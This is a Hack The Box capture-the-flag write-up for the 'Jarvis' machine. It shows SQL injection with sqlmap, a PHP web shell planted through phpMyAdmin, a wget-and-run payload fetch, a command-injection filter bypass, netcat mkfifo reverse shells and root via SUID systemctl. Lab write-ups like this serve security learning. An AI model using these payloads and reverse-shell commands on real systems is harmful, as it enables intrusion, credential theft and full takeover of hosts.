 # Jarvis (HACK THE BOX)

Hey Guys,Today we will be doing Jarvis from HackTheBox,
![](logo.png)
<br/>

## Nmap Scan

```
[sarthak@sarthak ~]$ nmap -sV 10.10.10.143 -Pn -v                                                                                      
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-29 17:55 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 17:55
Completed Parallel DNS resolution of 1 host. at 17:55, 0.01s elapsed
Initiating Connect Scan at 17:55
Scanning 10.10.10.143 [1000 ports]
Discovered open port 22/tcp on 10.10.10.143
Discovered open port 80/tcp on 10.10.10.143
Increasing send delay for 10.10.10.143 from 0 to 5 due to 79 out of 262 dropped probes since last increase.
Completed Connect Scan at 17:56, 54.66s elapsed (1000 total ports)
Initiating Service scan at 17:56
Scanning 2 services on 10.10.10.143
Completed Service scan at 17:56, 7.18s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.143.
Initiating NSE at 17:56
Completed NSE at 17:56, 2.45s elapsed
Initiating NSE at 17:56
Completed NSE at 17:56, 0.00s elapsed
Nmap scan report for 10.10.10.143
Host is up (0.58s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.01 seconds
```
We have only 2 ports opened(well one more but it was a rabbit hole) so let's start looking at port 80

## Enumerating Web Server

![](Selection_009.png)
<br/>
After looking around we found a good candidate for vulnerabilites like sql injection or LFI,etc

## HARVESTING CREDENTIALS

We were able to harvest credentials of admin from this following query
```
sqlmap -u "http://10.10.10.143/room.php?cod=3" --random-agent -D mysql -T user  --dump
```
and the output is :-
```
Username:-DBadmin
Password:-*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```
But this is a sha1 hash so after some hit and trial with the hash we got the value decrypted :)
![](Selection_010.png)
<br/>

```
password:-imissyou
```

## Getting Remote Code Execution

we found ```phpmyadmin``` in dirb results
```
[sarthak@sarthak ~]$ dirb http://10.10.10.143                                                                                    [0/29]

-----------------                
DIRB v2.22                       
By The Dark Raver                
-----------------                

START_TIME: Sat Jun 29 18:00:31 2019                               
URL_BASE: http://10.10.10.143/                                     
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt                                                                                   

-----------------                

GENERATED WORDS: 4612                                                                                                                  

---- Scanning URL: http://10.10.10.143/ ----                                                                                           
==> DIRECTORY: http://10.10.10.143/phpmyadmin/
```
After logging in with the credentials we got from sqlmap,We created a new database to upload shell ([Reference](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/))

![](Selection_011.png)
<br/>

We used the following query to create a new PHP one liner shell

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/hack.php"
```
![](Selection_012.png)
<br/>

We can execute commands now
<br/>
![](Selection_013.png)
<br/>

## Low Priv Shell

We [downloaded](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) a PHP shell from here and started a listner

Now we got a shell by executing this command on our rce php file...
```
http://10.10.10.143/hack.php?cmd=wget http://10.10.15.239:8081/sh.php;php sh.php
```
![](Selection_014.png)
<br/>

## Pivoting to pepper user

we saw that we can execute this script ```simpler.py``` as user pepper 
```
$ python -c 'import pty;pty.spawn("/bin/bash")'                                                 
www-data@jarvis:/$ sudo -l                                                                      
sudo -l                                                                                         
Matching Defaults entries for www-data on jarvis:                                               
    env_reset, mail_badpass,                                                                    
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin               
                                                                                                
User www-data may run the following commands on jarvis:                                         
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py                                
www-data@jarvis:/$    
```

After Going through the source code we found out that if we execute this script with ```-p``` paramter, it will ask for an ip address and there we can inject our code but it have a security check which blocks some characters...

```
forbidden = ['&', ';', '-', '`', '||', '|']
```
So after googling for a while we found out [this](https://vulners.com/zdt/1337DAY-ID-28868),So according to this we can execute commands inside `$(commands)` and it will bypass those checks...

So we downloaded a ```shell.sh```  on the server which has netcat reverse shell in it ...
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.239 1233 >/tmp/f
```

and upon executing this command we get a reverse connection
```
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```
then it asks for a IP address and we executed this command to get shell
```
$(sh /var/www/html/shell.sh)
```
![](Workspace 1_015.png)
<br/>

## Privesc

Upon executing this ``` find / -perm -u=s -type f 2>/dev/null ``` command we found out that ```systemctl``` will run as root 

```
pepper@jarvis:/var/www$ find / -perm -u=s -type f 2>/dev/null 
find / -perm -u=s -type f 2>/dev/null 
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
pepper@jarvis:/var/www$ 

```
To exploit this we have to create our own service which will get us shell so we use [this](https://www.linode.com/docs/quick-answers/linux/start-service-at-boot/) website to get a template for service creation

```
[Unit]
Description=Example systemd service.

[Service]
Type=simple
ExecStart=/bin/bash /home/pepper/lol.sh

[Install]
WantedBy=multi-user.target
```
we saved it as ```sarthak.service``` and given proper permissions ```chmod 777 sarthak.service``` and that ```lol.sh``` has another netcat shell which will pop shell on port 1232 
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.239 1232 >/tmp/f" > lol.sh;chmod +x lol.sh
```
Now we will take reference from this [site](https://gtfobins.github.io/gtfobins/systemctl/)

  - assigned TF variable ```TF=/home/pepper/sarthak.service```
  - Link the sarthak.service ```/bin/systemctl link $TF```
  - Start a listner on port 1232
  - Enable the service ``` /bin/systemctl enable --now $TF ```
  
 OUTPUT:-
 ```
 pepper@jarvis:~$ TF=/home/pepper/sarthak.service
TF=/home/pepper/sarthak.service
pepper@jarvis:~$ /bin/systemctl link $TF
/bin/systemctl link $TF
Created symlink /etc/systemd/system/sarthak.service -> /home/pepper/sarthak.service.
pepper@jarvis:~$ /bin/systemctl enable --now $TF
/bin/systemctl enable --now $TF
Created symlink /etc/systemd/system/multi-user.target.wants/sarthak.service -> /home/pepper/sarthak.service.
pepper@jarvis:~$ 
 ```
 
 And on our netcat now :)
 
 ```
 [sarthak@sarthak ~]$ nc -nvlp 1232
Connection from 10.10.10.143:44684
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# python -c 'import pty;pty.spawn("/bin/bash")'
root@jarvis:/# id
id
wuid=0(root) gid=0(root) groups=0(root)
root@jarvis:/# hoami
whoami
root

 ```
 Hooray !!! We rooted it 
 <br/>
 ![](meme.gif)
 <br/>
This was a good and straight forward machine,
and if you guys like it stay tuned for more :)
